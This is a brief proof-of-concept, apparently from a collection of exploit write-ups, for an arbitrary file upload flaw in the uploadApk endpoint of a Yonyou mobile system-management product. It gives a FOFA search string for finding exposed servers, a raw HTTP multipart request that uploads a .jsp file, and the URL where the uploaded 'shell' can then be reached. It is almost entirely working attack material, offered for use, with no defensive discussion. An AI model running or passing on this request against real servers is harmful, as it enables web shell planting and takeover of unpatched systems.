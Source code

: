 ## 用友移动系统管理uploadApk接口存在任意文件上传

## fofa
```
body="../js/jslib/jquery.blockUI.js"
```


## poc
```
POST /maportal/appmanager/uploadApk.dopk_obj= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

--fa48ebfef59b133a8cd5275661b35d2c
Content-Disposition: form-data; name="downloadpath"; filename="59209.jsp"
Content-Type: application/msword

082863327
--fa48ebfef59b133a8cd5275661b35d2c--
```
![image](../../images/28bb2ff0-4455-40aa-95b3-c1815f2ee85b.png)

上传的shell地址拼接：

http://127.0.0.1/maupload/apk/59209.jsp
